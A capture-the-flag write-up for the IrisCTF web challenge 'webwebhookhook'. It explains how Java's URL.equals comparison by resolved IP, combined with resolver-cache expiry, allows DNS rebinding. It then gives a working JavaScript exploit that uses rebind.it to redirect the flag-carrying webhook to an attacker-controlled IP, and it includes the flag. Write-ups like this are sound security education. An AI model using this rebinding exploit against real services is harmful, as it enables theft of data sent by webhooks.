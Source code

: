 # webwebhookhook (web, medium)

> I made a service to convert webhooks into webhooks.

## Challenge
The challenge provides a server which forwards requests received from a "webhook" endpoint to another based on a query parameter and a saved entry including the response and a template to modify the original POST data with. There is one included webhook which sends the flag to `http://example.com/admin`.

## Solution
When the server recieves a request, it looks at the "hook" parameter to determine which saved webhook the request corresponds to. It decides wihch webhook is matching by comparing the saved webhook as a URL object to the recieved webhook, which is also converted to a URL. However, there is a relatively well known catch with the URL object in which equality is checked using the IP of the URLs after DNS resolution, rather than comparing the hostname. In addition, the request's "hook" URL is what is used for creating the new request, which means that the new request may have a different URL host than the saved URL.

The call to `hook.openConnection()` actually performs a new DNS resolution on the url, which opens the connection up to DNS rebinding attacks. However, blindly attempting to exploit by sending requests constantly is unlikely to work as there are no clear slow code lines between the resolutions, and because Java has an resolver cache.

The DNS resolver cache is included partially to prevent against DNS rebinding attacks and saves DNS lookup results for 30 seconds by default (the property is specifically under Java security settings!). However, we can exploit the time right when the DNS resolver cache expires to cause the first comparison to use a cached result and the `openConnection` call to resolve the URL again.

There are still more things we can keep in mind in order to make our exploit more reliable. First, we should ensure our rebinding service always returns the IP for `example.com` on the first request and our server on the second request right after the cache entry expires. Next, we can determine whether our requests arrived too early or too late based on the response from the server. If the server responds with "ok", we know our request was either before the DNS cache expired or we solved the challenge, as the "hook" check passed. Otherwise, the response will be "fail" as the entry expired. Finally, all attempts should use different hostnames in order to prevent the attempts from interfering with each other and the rebinder state becoming incorrectly offset.

My solution is using the Singularity of Origin DNS rebinding service available [here](https://github.com/nccgroup/singularity/wiki/How-to-Create-Manual-DNS-Requests-to-Singularity%3F). This solution works every 2-3 attempts.

```js
const CACHE_TIME = 30;
const TIME_OFFSET = 4.5; // Time representing the approximate network latency.
// If you receive only "ok" responses and no flag, you should decrease the number,
// and if you receive only "fail" responses you should increase the number,

// Destination IP ('x.x.x.x') or CNAME entry ('-attacker.com')
const dest = '1.2.3.4';

// Rebind example.com to dest with the first-second strategy
const URL_BASE_PLAIN = `http://s-93.184.215.14-${dest}-%d-fs-e.d.rebind.it/admin`;
const URL_BASE_ENCODED = `http%3A%2F%2Fs-93.184.215.14-${dest}-%d-fs-e.d.rebind.it%2Fadmin`;

const base = "https://webwebhookhook-instance.i.chal.irisc.tf";

// Send a request.
async function req(i, sess) {
  r = await fetch(`${base}/webhook?hook=` + (URL_BASE_ENCODED.replace("%d", sess)), {"method": "POST", "body": '"' + "a".repeat(0x1000) + '"', "headers": {"Content-Type": "text/plain"}}); // Try to slow it down with a body but likely unimportant (didn't test particularly)
  r = await r.text();
  console.log(">", r, i);
}

const sleep = ms => new Promise(r => setTimeout(r, ms));

async function go() {
  let sess;
  while(1) {
    sess = Math.floor(Math.random() * 2**32);
    r = await fetch(`${base}/webhook?hook=` + (URL_BASE_ENCODED.replace("%d", sess)), {"method": "POST", "body": '"' + "a" + '"', "headers": {"Content-Type": "text/plain"}});
    r = await r.text();
    console.log(sess, r);
    if (r.includes("ok")) // Should always pass with rebind.it
      break;
  }
  await sleep((CACHE_TIME - TIME_OFFSET) * 1000);
  let st = performance.now();
  let i = 0;
  while (performance.now() < st + 500) {
    req(i, sess);
    i++;
  }
}

go();
```

Flag: `irisctf{url_equals_rebind}`
